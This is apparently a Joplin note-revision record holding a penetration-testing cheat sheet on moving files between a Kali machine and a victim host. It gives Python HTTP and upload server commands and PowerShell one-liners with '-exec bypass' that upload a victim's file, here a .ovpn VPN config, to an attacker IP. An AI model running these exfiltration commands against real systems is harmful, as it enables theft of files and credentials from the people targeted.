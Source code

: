 id: f1e11523bf4d4ab1b69ae11441cbe6f9
parent_id: 
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1650559926174
title_diff: "[{\"diffs\":[[1,\"Web Server\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":11}]"
body_diff: "[{\"diffs\":[[1,\"Download or Upload files by setting up a webserver\\\n\\\nFrom Client(Victim):\\\n\\\n# Download: Just turn on webserver in the folder\\\n\\\n> python2 -m SimpleHTTPServer 8000\\\n> \\\n> sudo python3 -m http.server 8001\\\n\\\n# Upload:\\\n\\\nTurn on the upload server in /var/www/html:\\\n\\\n> python3 http-server.py -p 8000 --no-ssl\\\n\\\nOn the client side, Use powershell commands to send the file\\\n\\\n> (New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')\\\n> \\\n> powershell -nop -exec bypass -c \\\"(New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')\\\"\\\n\\\nIf we want to send text, we can use PUT command\\\n\\\n> Invoke-RestMethod -Uri \\\"http://127.0.0.1:8000/Hello.txt\\\" -Method PUT -Body \\\"Hello\\\"\\\n\\\n# Old upload method:\\\n\\\n- Start http server in /var/www/html/:\\\n    - sudo python2 -m SimpleHTTPServer 8001\\\n- Run the following powershell code in the Windows Host:\\\n    - powershell.exe -c \\\"(New-Object System.Net.WebClient).UploadFile('http://192.168.19.29:8001/upload.php', '<file to=\\\"\\\" upload=\\\"\\\">')\\\"</file>\\\n- Find the file in Kali under /var/www/uploads/\\\n\\\n> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'\\\n\\\nhttps://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9\\\n\\\n# UploadServer\\\n\\\npython3 -m uploadserver\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1370}]"
metadata_diff: {"new":{"id":"6542c907ee3d4b659b0fd7588c5dbe48","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T16:53:31.450Z
created_time: 2022-04-21T16:53:31.450Z
type_: 13